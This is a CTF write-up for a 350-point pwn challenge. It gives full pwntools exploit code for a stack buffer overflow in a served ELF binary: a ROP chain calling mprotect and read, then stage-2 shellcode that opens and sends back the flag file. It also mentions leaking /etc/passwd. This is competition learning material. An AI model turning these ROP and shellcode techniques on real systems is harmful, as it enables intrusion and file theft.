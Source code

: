 ### Solved by superkojiman, barrebas, and Swappage

This was a 350 point challenge that barrebas, Swappage, and I tackled

We're given an IP address and a port to connect to. Connecting to the port dumped what looked like an ELF binary. I saved the output and sure enough, it was a simple program that received input from the user on a port and echoed it back. 

Swappage figured out that the server probably started an instance of this particular program it sent us, listening on the specifed port for a short period of time. He also noticed that the binary the server sent us was always different. 

Doing a quick comparison, I found that the port number, the number of bytes the binary would receive from the user, and the size of the stack frame always changed. This in turn meant that in some cases, the binary was exploitable when the number of bytes received was larger than the size of the buffer. I hacked out the following to grab the randomly changing values from the binary.

```python
#!/usr/bin/env python
from pwn import *

print "saving binary as \"mybin\""
f = open("mybin", "w")

r = remote("52.20.10.244", 8888)
d  = r.recvall()

f.write(d)
f.close()

e = ELF("mybin")

bufsiz = e.read(0x400781, 7)[3:]
print "bufsiz:", bufsiz

port = e.read(0x4007d4, 3)[1:]
toread = e.read(0x40082e, 3)[1:]

bufsiz = u32(bufsiz) - 8            # bufsiz is size of stack frame - 8
port = u32(port + "\x00\x00")
toread = u32(toread + "\x00\x00")

print "port:", port
print "toread:", toread
print "bufsiz:", bufsiz

# see if this binary is exploitable
if toread > bufsiz:
    print "exploitable!"
else:
    print "can't exploit this one."
```

This worked some times. In some instances the addresses were totally different. I didn't bother to figure out what was going on since it wasn't hard to get this particular case working and I wanted to move on to the exploitation. 

We were informed that ASLR was disabled on the server, and there was no stack canary. The only obstruction was NX. I grabbed libc from the server hosting Pwn100 in the hopes that it was the same one used for this challenge. I went to bed and handed the challenge off to barrebas. 

Barrebas figured out how to leak libc's base address, and from there he was able to modify the exploit to leak more data out. Thanks to that, we had access to a wider range of ROP gadgets and the functions in libc. He also found the socket file descriptor used by the server to communicate with us. 

We initially tried to get a shell, however nothing was working. A reverse shell I setup would connect briefly and then disconnect before I could do anything. Locally it worked, but remotely it was having issues. So much for the easy route. Based off Pwn100, I assumed the flag was in file called flag, and so I started to put together an exploit that would open the flag file, read it, and then write it back to us.

Due to NX, the stack wasn't executable. I decided to use mprotect() on addresses 0x00601000 to 0x00602000 to make it RWX. The plan was to copy the second stage payload in there which would perform the actual open/read/write of the flag. 

```
#!/usr/bin/env python
from pwn import *
import time
import sys

context(os="linux", arch="amd64")

print "saving binary as \"mybin\""
f = open("mybin", "w")

r = remote("52.20.10.244", 8888)
d  = r.recvall()

f.write(d)
f.close()

e = ELF("./mybin")


bufsiz = e.read(0x400781, 7)[3:]
port = e.read(0x4007d4, 3)[1:]
toread = e.read(0x40082e, 3)[1:]

bufsiz = u32(bufsiz) - 8            # bufsiz is size of stack frame - 8
port = u32(port + "\x00\x00")
toread = u32(toread + "\x00\x00")

print "port:", port
print "toread:", toread
print "bufsiz:", bufsiz

# see if this binary is exploitable
if toread > bufsiz:
    print "exploitable!"

    r = remote("52.20.10.244", port)

    buf = ""
    buf += "A"*(bufsiz-len(buf))

    base = 0x400690
    write_at_got = 0x601018
    oneshotrce = 0x4652c

    # libc_base_offset 0x1f4a0
    # 0x000c1e55 : syscall ; ret
    # 0x000293b8 : pop rax; ret
    # 0x00005365 : pop rsi; ret
    # 0x0009da40 : pop rdx; ret
    # 0x0000367a : pop rdi; ret

    libc_base = 0x7ffff7a15000      # remote

    syscal = p64(libc_base + 0xc1e65)
    binsh = p64(libc_base +  0x000000000017CCDB)

    libc_base += 0x1f4a0
        
    poprax = p64(libc_base + 0x000293b8)
    poprsi = p64(libc_base + 0x00005365)
    poprdi = p64(libc_base + 0x0000367a)
    poprdx = p64(libc_base + 0x0009da40)

    # rop chain starts here

    # mprotect chain
    buf += poprax
    buf += p64(0xa)
    buf += poprdi
    buf += p64(0x00601000)
    buf += poprsi
    buf += p64(0x1000)
    buf += poprdx
    buf += p64(0x7)
    buf += syscal

    # read chain: read shellcode from user
    buf += poprax
    buf += p64(0x0)
    buf += poprdi
    buf += p64(6)
    buf += poprsi
    buf += p64(0x00601000)      # write shellcode here
    buf += poprdx
    buf += p64(0x100)
    buf += syscal

    # return to payload
    buf += p64(0x00601000)

    print "sending stage 1"
    r.send(buf)

    print "hit enter to send stage 2"
    raw_input()

    # read flag
    stage2 = ""
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601090")
    stage2 += asm("mov rdx, 0x10")
    stage2 += asm("syscall")

    # open flag
    stage2 += asm("mov rax, 0x2")
    stage2 += asm("mov rdi, 0x00601090")
    stage2 += asm("mov rsi, 0x0")
    stage2 += asm("syscall")
    stage2 += asm("mov r15, rax")

    # read flag from fd
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, r15")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")
    
    # write flag to sockfd
    stage2 += asm("mov rax, 0x1")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")

    r.send(stage2)

    print "hit enter to send flag location"
    raw_input()
    r.send("/home/ctf/flag\x00")

    print r.recv()

else:
    print "can't exploit this one."
```

If you're wondering how I knew where the flag was, I initially didn't. I assumed it was in the same directory as the running binary but it wasn't. I initially used the exploit to leak the contents of /etc/passwd to find /home/ctf. 


I had to try the exploit several times. It worked best when the bytes read was greater than the buffer size by over 100 bytes. When it finally worked:

```plain
saving binary as "mybin"
[+] Opening connection to 52.20.10.244 on port 8888: Done
[+] Recieving all data: Done (8.75KB)
[*] Closed connection to 52.20.10.244 port 8888
[*] '/root/Desktop/pwn350/mybin'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
port: 18716
toread: 369
bufsiz: 200
exploitable!
[+] Opening connection to 52.20.10.244 on port 18716: Done
sending stage 1
hit enter to send stage 2

hit enter to send flag location

flag{c4nt_w4it_f0r_cgc_7h15_y34r}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00...
[*] Closed connection to 52.20.10.244 port 18716
```

Win! Flag is **flag{c4nt_w4it_f0r_cgc_7h15_y34r}**

